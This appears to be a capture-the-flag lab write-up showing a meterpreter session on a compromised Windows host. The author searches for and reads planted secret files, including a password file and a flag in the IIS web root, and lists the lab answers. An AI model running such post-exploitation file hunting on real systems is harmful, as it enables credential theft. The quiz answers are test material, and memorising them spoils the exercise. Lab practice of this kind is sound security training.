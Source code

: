 ```
meterpreter > shell
Process 3408 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:\Program Files (x86)\Windows Multimedia Platform
cd c:\Program Files (x86)\Windows Multimedia Platform

c:\Program Files (x86)\Windows Multimedia Platform>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of c:\Program Files (x86)\Windows Multimedia Platform

07/30/2021  08:33 PM    <DIR>          .
07/30/2021  08:33 PM    <DIR>          ..
07/30/2021  07:44 AM                35 secrets.txt
09/15/2018  07:12 AM            40,432 sqmapi.dll
               2 File(s)         40,467 bytes
               2 Dir(s)  15,242,125,312 bytes free


c:\Program Files (x86)\Windows Multimedia Platform>type secrets.txt
type secrets.txt
My Twitter password is KDSvbsw3849!
Answer : KDSvbsw3849!

Where is the "realsecret.txt" file located?

meterpreter > search -f "*secret.txt*"
Found 1 result...
    c:\inetpub\wwwroot\realsecret.txt (34 bytes)
Answer : c:\inetpub\wwwroot

What is the real secret?

Going to the location and showing the file content :

c:\Program Files (x86)\Windows Multimedia Platform>cd c:\inetpub\wwwroot
cd c:\inetpub\wwwroot

c:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of c:\inetpub\wwwroot

07/30/2021  08:32 PM    <DIR>          .
07/30/2021  08:32 PM    <DIR>          ..
07/30/2021  07:56 AM               729 iisstart.htm
07/30/2021  06:52 AM            99,710 iisstart.png
07/30/2021  08:30 AM                34 realsecret.txt
               3 File(s)        100,473 bytes
               2 Dir(s)  15,242,125,312 bytes free

c:\inetpub\wwwroot>type realsecret.txt
type realsecret.txt
The Flash is the fastest man alive
c:\inetpub\wwwroot>
Answer : The Flash is the fastest man alive
```